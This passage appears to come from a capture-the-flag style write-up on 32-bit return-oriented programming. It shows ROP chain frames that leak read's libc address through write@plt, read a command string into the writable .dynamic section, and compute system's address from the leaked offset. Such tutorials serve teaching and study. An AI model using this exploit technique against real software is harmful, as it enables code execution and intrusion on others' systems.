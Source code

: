 ```
[pppr     ] // return address
[1        ]
[read@got ]
[4        ]
--frame_2--
[??       ]
```
Next, we need to find a place to write our command string to system.
We can use the read function to do that. Read looks like this
```
ssize_t read(int fd, void *buf, size_t count);```
```
So let's do
```
read(0 /*stdin*/, target, length of command);
```
We now need a place to read the string to. ELF has different sections, with
different permissions. Some are read only, write only, execute only, or any
combination of the three! rabin2 lets us see the secitions and find the
permissions and sizes of each, so we can tell where to write to.
![Imgur](http://i.imgur.com/YsU1Blx.png)
Perfect! there are plenty of sections. Generally I like to write to the `.bss`
section, but this is only size 8, which would limit our command. So let's pick
the `.dynamic` section. It is size 208, and we can write to it.
```
idx=20 vaddr=0x08049530 paddr=0x00000530 sz=208 vsz=208 perm=-rw- name=.dynamic
```
We'll reuse the same pppr gadget, because write has the same number of args.
So now our rop chain can be.
I'll call 0x08049530 writeaddr, and len(cmd) the length of our command.
So this now leaks the libc address of read. Then calls read from stdin to a
memory address that we can write to. Then we need to return to our vulnerable
function to then execute the system address that we calculate.
```
STAGE 1
--frame_1--
[write@plt]
[pppr     ] // return address
[1        ]
[read@got ]
[4        ]
--frame_2--
[vuln_func]

STAGE2
--frame_1--
[read@plt   ]
[pppr       ]
[0          ]
[writeaddr  ]
[len(cmd)+1 ]
```
In my libc, we can find the offsets of read and system. Because we leak the
libc address of read, we can compute where system is by doing the following
math.
```
offset = libc_read - libc_system
sys_addr = leaked_read_addr - offset
```
